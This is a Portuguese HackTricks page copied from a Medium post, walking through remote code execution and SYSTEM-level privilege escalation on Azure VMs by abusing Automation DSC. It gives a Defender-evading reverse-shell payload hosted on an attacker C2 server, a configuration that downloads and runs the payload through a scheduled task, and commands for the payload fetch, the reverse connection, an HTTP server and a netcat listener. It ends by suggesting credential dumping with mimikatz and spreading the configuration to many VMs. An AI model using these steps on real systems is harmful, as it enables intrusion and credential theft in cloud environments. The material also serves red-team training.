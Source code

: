 # Az - State Configuration RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estarei hospedando uma versão simplificada do payload Nishang Invoke-PowerShellTcp.ps1 do servidor remoto "40.84.7.74", que é a máquina Kali. O nome do payload será "RevPS.ps1". Para evitar que o script Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira salvar o arquivo no disco), aqui está uma versão leve que você pode usar e que evitará o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um simples Python Simple Server na máquina Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de escrita de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload do nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada terá um papel chave na execução e nos fornecerá privilégios de SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Ele está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como um modelo. **Você precisará preencher os nomes das variáveis e parâmetros com o que está usando**. Isso inclui os nomes dos recursos, caminhos de arquivos e os nomes do servidor/payload externo que você está usando. Por favor, consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, vamos compactar o arquivo **‘reverse\_shell\_config.ps1’** para que possa ser enviado para a Storage Account
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Passo 3 — Configurar Contexto de Armazenamento & Upload <a href="#bed9" id="bed9"></a>

Novamente, vamos configurar o contexto da nossa Conta de Armazenamento, o que eu já fiz. Eu já tenho um contêiner chamado '**azure-pentest**', então é aqui que farei a publicação:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Passo 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

Em nossa Kali box, podemos simplesmente usar _wget_ para baixar nosso payload do PowerShell. O script do reverse-shell em sua forma bruta está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar após a execução. No meu caso, adicionei o seguinte:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora vamos executar nosso arquivo de configuração. Eu configurei o meu para ser publicado na Área de Trabalho para uma melhor visualização, no entanto, ele pode ser publicado em praticamente qualquer lugar. Após alguns minutos, veremos que o script de reverse-shell foi publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="c55f"></a>

Uma vez que publicamos a configuração, podemos iniciar simultaneamente um Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios de nível **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell rodando como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo da maturidade do EDR para recursos na nuvem). Se você despejar credenciais, há uma boa chance de que estas possam ser reutilizadas em diferentes recursos. Por último, uma grande lição é que, em vez de limitar isso a uma VM, você agora tem a capacidade de aplicar essa configuração potencialmente em várias VMs.

Com isso, concluímos nossas aventuras com Azure Automation DSC! Espero que você tenha se divertido, aprendido muito e continue a expandir com sua própria criatividade.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
